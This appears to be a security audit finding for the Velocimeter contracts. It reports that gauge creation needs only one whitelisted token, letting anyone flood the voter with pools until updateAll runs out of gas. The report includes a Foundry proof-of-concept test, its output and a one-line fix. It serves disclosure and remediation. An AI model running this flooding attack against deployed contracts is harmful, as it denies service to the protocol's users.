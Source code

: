 Generous Malachite Rook

High

# createGauge is permissionless , allowing attackers to push numerous pools into the voter.

## Summary
[Voter.sol::createGauge](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L323-L378)  is permissionless , attackers to push numerous pools into the voter , result in  [Voter.sol::updateAll](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L509-L511) out of gas.

## Vulnerability Detail
From [Voter.sol::createGauge](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L349-L351) we can see
```solidity
  if (msg.sender != governor && msg.sender != emergencyCouncil) { // gov can create for any pool, even non-Velocimeter pairs
      require(isPair, "!_pool");
      require(IGaugePlugin(gaugePlugin).checkGaugeCreationAllowance(msg.sender, tokenA, tokenB), "!whitelistedForGaugeCreation");
  }
```

If current `msg.sender` is not governor and emergencyCouncil , protocol first check weather `pair` is created by `PairFactory.sol`. And then check `tokenA` and `tokenB` is WhitelistedForGaugeCreation.

[PairFactory.sol::createPair](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/factories/PairFactory.sol#L108-L124) is also  permissionless anyone can call `createPair` to create a `pair`. The only check is that `tokenA` and `tokenB` pair is not exist.
[PairFactory.sol::createPair](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/factories/PairFactory.sol#L111-L112)
```solidity
        require(token0 != address(0), 'ZA'); // Pair: ZERO_ADDRESS
        require(getPair[token0][token1][stable] == address(0), 'PE');
```

thus the last check and only check is [GaugePlugin.sol::checkGaugeCreationAllowance](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugePlugin.sol#L55-L63)
```solidity
  function checkGaugeCreationAllowance(
      address caller,
      address tokenA,
      address tokenB
  ) external view returns (bool) {
      return
          isWhitelistedForGaugeCreation[tokenA] ||
          isWhitelistedForGaugeCreation[tokenB];   <@
  }
```
From the code, we can see that `checkGaugeCreationAllowance` requires only one token that is `isWhitelistedForGaugeCreation`. An attacker can exploit this by using a single whitelisted token along with any other token to create numerous pools, overwhelming the voter system and potentially causing a denial of service (DoS).

test:
```solidity
  function testPermissionlessCreateGauge() public {
      address random = makeAddr("random");
      vm.startPrank(random);

      for(uint256 i;i<10;i++){
          MockERC20 tokenB = new MockERC20("name","symbol",18);
          address pair = factory.createPair(address(FLOW),address(tokenB),false);
          voter.createGauge(pair,0);
      }

      console2.log(voter.length());
  }
```
out:
```shell
Ran 1 test for test/Voter.t.sol:VoterTest
[PASS] testPermissionlessCreateGauge() (gas: 87659391)
Logs:
  10

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 22.06ms (6.84ms CPU time)
```

## Impact
system dos

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L323-L378
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugePlugin.sol#L55-L63

## Tool used

Manual Review

## Recommendation
```diff
@@ -58,8 +58,8 @@ contract GaugePlugin is IGaugePlugin, Ownable {
         address tokenB
     ) external view returns (bool) {
         return
-            isWhitelistedForGaugeCreation[tokenA] ||
-            isWhitelistedForGaugeCreation[tokenB];
+            isWhitelistedForGaugeCreation[tokenA] &&
+            isWhitelistedForGaugeCreation[tokenB]; //@audit & ?
     }
```

